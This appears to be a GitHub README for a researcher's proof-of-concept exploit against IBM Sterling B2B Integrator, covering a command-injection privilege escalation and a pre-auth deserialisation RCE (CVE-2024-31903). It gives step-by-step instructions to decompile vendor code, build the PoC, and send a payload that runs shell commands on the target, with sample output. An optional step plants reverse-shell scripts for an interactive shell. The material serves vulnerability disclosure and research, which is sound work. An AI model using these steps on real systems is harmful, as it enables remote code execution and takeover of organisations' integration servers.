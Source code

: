 # IBM Sterling B2B Integrator PoC

Proof of concept code for the exploitation of the vulnerabilities discovered against IBM Sterling B2B Integrator, versions 6.2.0.0 to 6.2.0.2, and 6.0.0.0 to 6.1.2.5 for Linux, Windows and AIX systems:

- LPE Command Injection - if authentication is disabled
- Pre-auth Deserialisation RCE - assigned CVE-2024-31903, see the relevant IBM advisory here: https://www.ibm.com/support/pages/node/7172233 
 
More details about these issues can be found in my DistricCon talk "To B or not 2B: Breaking the IBM B2B Integrator with, and without authentication":
 
https://www.districtcon.org/bios-and-talks-2025/to-b-or-not-to-b


## Repo Structure

Most of this code in this repo refers to the LPE command injection attack.

The Python binary client `bin_client.py` can be used to send messages manually to CLA2, allowing exploitation of the deserialisation RCE vulnerability. 


## Usage

```bash
$ java Main
$ Usage: Main <cmdLine> <outfile_or_SEND> [host] [port]
```

The PoC accepts two parameters:
- The shell command to be executed by the target CLA2 client
- A path to write the serialised Java message to disk, to then be analysed further/sent manually with something like `bin_client.py`, or the string "SEND" to send it immediately to host:port where a CLA2 client is listening on


## Instructions 

The source code included in this repository is deliberately incomplete, as certain classes from the CLA2 susbystem are required. Depending on filesystem permissions of the installation directory, you might be able to access the JAR files 

Assuming you have retrieved the relevant files from the JAR decompilation. Will not be uplaoded here as they constitute IBM IP

1. Decompile `CLA2Client.jar` 

2. In the decompiled code, locate files `CmdLine2Result.java` and `CmdLine2Parms.java` 

3. Copy and paste them next to `Main.java` to replicate the directory structure of the original application's java package

```
/src/com/sterlingcommerce/woodstock/services/cmdline2/
```

4. Compile the PoC program - ideally using the JDK packaged by the application 

```bash
${B2BHOME}/INSTALL/jdk/bin/javac src/com/sterlingcommerce/woodstock/services/cmdline2/*.java
```

5.	Execute it - again, using the JDK packaged by the application if possible

```bash
${B2BHOME}/appl/SFG/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main '/bin/sh -c "id > /tmp/result"' SEND 127.0.0.1 5052
[+] Creating object...
[+] Sending object to 127.0.0.1:5052...
[+] ...Sent!
[+] Receiving header...
[+] ...header received: RESULT
[+] Receiving result...
[+] Result received:
##[DEBUG]## CmdLine2Result:
fileSize=0
outputNameLong=null
outputNameShort=null
******* end of CmdLine2Result *******
[+] clr.statusRpt:       null
[+] clr.exceptionString: null
[+] clr.somethingToLog:  CmdLine2Thread.runCommand: cmdLine before execution=/bin/sh -c "id > /tmp/result"
##[REMOTE DEBUG]## parm0=/bin/sh
##[REMOTE DEBUG]## parm1=-c
##[REMOTE DEBUG]## parm2=id > /tmp/result 
```

6.	(Optional) To obtain a fully interactive shell, upload the `revshell.py` and `revshell_listener.py` scripts onto the target system, and start the listener. Then, replace the PoC's command parameter with an invocation of the reverse shell script as below:   

```bash 
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main 'python3 /tmp/revshell.py 9090' SEND
```

